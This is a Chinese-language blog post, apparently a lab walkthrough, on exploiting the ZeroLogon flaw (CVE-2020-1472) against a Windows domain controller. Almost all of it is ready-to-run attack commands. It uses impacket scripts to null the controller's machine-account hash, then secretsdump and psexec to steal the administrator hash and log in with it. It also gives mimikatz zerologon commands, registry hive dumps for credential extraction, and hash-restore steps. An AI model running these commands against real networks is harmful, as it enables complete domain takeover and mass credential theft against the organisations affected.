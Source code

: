 **目录**

[背景](#t0 "背景")

[impacket攻击](#t1 "impacket攻击")

[挂socks5代理打](#t2 "挂socks5代理打")

[使用mimikatz攻击](#t3 "使用mimikatz攻击")

[恢复域控的机器用户哈希](#t4 "恢复域控的机器用户哈希")

[获得域控机器账号原始哈希](#t5 "获得域控机器账号原始哈希")

[方式一 ：](#t6 "方式一 ：")

[方式二：](#t7 "方式二：")

[恢复域控原始哈希](#t8 "恢复域控原始哈希")

* * *

背景
==

在2020年8月份微软公布的安全公告中，有一个十分紧急的漏洞——CVE-2020-1472 NetLogon 权限提升漏洞。通过该漏洞，未经身份的验证者只需要能访问到域控的135端口即可通过使用 Netlogon 远程协议（MS-NRPC）连接域控制器并重置域控的机器账号的[哈希](https://so.csdn.net/so/search?q=%E5%93%88%E5%B8%8C&spm=1001.2101.3001.7020)，从而导致攻击者可以通过域控的机器账号导出域内的所有用户哈希(域控的机器账号具有Dcsync权限，使用Dcsync导出域内哈希，需要域控开启445端口)，进而接管整个域。

所以这个漏洞完整的利用，需要域控开启**135**和**445**端口。

**impacket攻击**

先执行如下命令判断域控是否存在该漏洞

```
python3 zerologon_tester.py win2008 192.168.10.131
```


![](https://img-blog.csdnimg.cn/20201012161345123.png)

该脚本会将域控的机器账号哈希置为空

```
#查询域控的机器用户哈希      
./secretsdump.py xie.com/administrator:password@192.168.10.131 -just-dc-user "win2008$"       
#攻击，使域控的机器账号哈希置为空      
python3 CVE-2020-1472.py win2008 win2008$ 192.168.10.131       
#再次查询域控的机器用户哈希，可以看到，已经变为空了      
./secretsdump.py xie.com/administrator:password@192.168.10.131 -just-dc-user "win2008$"
```


![](https://img-blog.csdnimg.cn/20201012161428171.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
#使用机器账号，哈希为空连接，导出administrator用户的哈希      
./secretsdump.py "xie/win2008$"@192.168.10.131 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc-user "administrator"      
#然后用administrator用户的哈希连接域控      
./psexec.py xie/administrator@192.168.10.131 -hashes aad3b435b51404eeaad3b435b51404ee:cb8a428385459087a76793010d60f5dc
```


 ![](https://img-blog.csdnimg.cn/20201012161511903.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

挂socks5代理打
==========

```
proxychains4 -q python3 CVE-2020-1472.py win2008 win2008$ 192.168.10.131
```


![](https://img-blog.csdnimg.cn/20201012161604695.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

使用mimikatz攻击
============

```
#如果当前主机在域环境中，则target这里可以直接使用FQDN      
lsadump::zerologon /target:win2008.xie.com /ntlm /null /account:win2008$ /exploit      
​      
#如果当前主机不在域环境中，则target这里可以直接指定ip      
lsadump::zerologon /target:192.168.10.131 /ntlm /null /account:win2008$ /exploit
```


 ![](https://img-blog.csdnimg.cn/20201012161717634.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

攻击机不在域环境中时

![](https://img-blog.csdnimg.cn/20201012161804683.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

恢复域控的机器用户哈希
===========

在攻击成功后，一定要恢复域控的机器用户的原始哈希，不然有可能域控重启会出现无法开机等情况！

获得域控机器账号原始哈希
------------

### 方式一 ：

利用secretsdump.py调用自带的-use-vss 参数，即可启动卷影复制服务volume shadow copy （VSS）,从而获得计算机原始的哈希

```
./secretsdump.py "xie/win2008$"@192.168.10.131 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -use-vss
```


![](https://img-blog.csdnimg.cn/20201012161849495.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 方式二：

```
reg save HKLM\SYSTEM system.save      
reg save HKLM\SAM sam.save      
reg save HKLM\SECURITY security.save
```


![](https://img-blog.csdnimg.cn/20201012161921532.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

将刚刚保存的三个文件放到`impacket`的`examples`目录下，执行如下命令。如下，`$MACHINE.ACC`后面的就是原来的机器哈希

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```


![](https://img-blog.csdnimg.cn/20201012161941304.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

恢复域控原始哈希
--------

该脚本比较暴力，再打一次，计算密码的时候使用了空密码的hash去计算session\_key。 直接使用机器账号的原始NTLM哈希即可还原，执行如下命令恢复：

```
python3 reinstall_original_pw.py win2008 192.168.10.131 d0aeb0472d4400ec08b2f9fe8ed17655
```


![](https://img-blog.csdnimg.cn/20201012162010762.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

或者直接在域控上执行该命令， 该命令一次性重置计算机的机器帐户密码。(包括AD，注册表，lsass里面的密码)。 重置后的密码跟之前的密码不一样

```
powershell Reset-ComputerMachinePassword
```


  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

相关文章：[ZeroLogon的利用以及分析](https://mp.weixin.qq.com/s/S9Hwb1-lLhh4QfI4b551SQ "ZeroLogon的利用以及分析")

                 [CVE-2020-1472 NetLogon 权限提升漏洞研究](https://mp.weixin.qq.com/s/CBMchx7hLO8YovcEnWM2IQ "CVE-2020-1472 NetLogon 权限提升漏洞研究")